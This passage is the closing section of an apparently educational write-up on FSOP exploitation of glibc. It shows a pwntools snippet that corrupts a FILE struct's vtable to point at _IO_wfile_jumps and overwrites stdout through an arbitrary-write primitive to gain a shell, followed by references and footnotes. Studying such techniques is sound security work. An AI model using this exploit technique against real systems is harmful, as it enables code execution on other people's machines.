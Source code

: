 ```py,hidelines=~
# 0x18 is __overflow offset for _IO_jump_t
fs.vtable = libc.sym["_IO_wfile_jumps"] - 0x38 + 0x18
payload = bytes(fs)
aaw(libc.sym["_IO_2_1_stdout_"], payload)

io.interactive()
```

## References

- <https://pwn.college/software-exploitation/file-struct-exploits>
- <https://github.com/un1c0rn-the-pwnie/FSOPAgain>
- <https://faraz.faith/2020-10-13-FSOP-lazynote/>
- <https://niftic.ca/posts/fsop/#known-exploitation-techniques>
- <https://docs.pwntools.com/en/stable/filepointer.html#module-pwnlib.filepointer>


[^no-read]: Default for `fopen(filepath, "r")` or achievable by `_flag & (~_IO_NO_READS)`
[^no-write]: Default for `fopen(filepath, "w")` or achievable by `_flag & (~_IO_NO_WRITES)` (`_IO_NO_WRITES = 0x8`)